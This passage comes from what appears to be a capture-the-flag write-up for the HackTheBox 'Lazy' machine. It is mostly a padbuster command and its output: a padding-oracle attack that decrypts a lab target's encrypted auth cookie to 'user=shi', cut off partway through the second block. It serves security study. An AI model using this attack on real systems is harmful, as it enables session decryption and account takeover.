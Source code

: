 To exploit this vulnerability, we can use `padbuster`.

```bash
Usage: padbuster URL EncryptedSample BlockSize [options] 

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 979

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (128/256) [Byte 8]
[+] Success: (120/256) [Byte 7]
[+] Success: (121/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (23/256) [Byte 4]
[+] Success: (175/256) [Byte 3]
[+] Success: (158/256) [Byte 2]
[+] Success: (162/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 2632f7577b141b87
[+] Intermediate Bytes (HEX): 566557eceb848a81
[+] Plain Text: user=shi

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (128/256) [Byte 8]
[+] Success: (225/256) [Byte 7]
[+] Success: (239/256) [Byte 6]
[+] Success: (135/256) [Byte 5]
[+] Success: (172/256) [Byte 4]
```
